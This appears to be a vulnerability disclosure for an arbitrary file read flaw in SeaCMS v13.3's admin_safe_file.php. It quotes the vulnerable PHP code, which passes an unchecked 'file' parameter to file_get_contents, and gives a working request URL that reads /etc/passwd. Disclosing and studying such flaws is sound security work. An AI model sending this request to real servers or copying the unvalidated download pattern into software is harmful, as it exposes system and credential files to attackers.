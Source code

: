## Arbitrary File Read  in admin_safe_file.php

### Introduction

SeaCMS v13.3 is vulnerable to an arbitrary file read vulnerability. This vulnerability is located in the utility file `admin_safe_file.php`, where insufficient parameter validation allows attackers to read arbitrary files.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)

### Vulnerability Analysis

The vulnerability exists in the `admin_safe_file.php` file, where the `file_get_contents` function is used without proper restrictions on the input parameters, leading to arbitrary file read.

The key code is as follows:
```php
if($action=="download" && isset($_GET['file']) && trim($_GET['file'])!="")  
{  
 $file = $_GET['file'];  
 ob_clean();  
 if (@file_exists($file)) {  
  header("Content-type: application/octet-stream");  
     header("Content-Disposition: filename=\"".basename($file)."\"");  
  echo file_get_contents($file);  
 }  
 exit();  
}
```

### Exploitation

By accessing the following URL with the specified parameters, an attacker can read arbitrary files, such as `/etc/passwd`:

```r
ywmba6/admin_safe.php?action=download&file=/etc/passwd
```

As shown in the image below, the contents of `/etc/passwd` are successfully read:

![](./public/9.png)
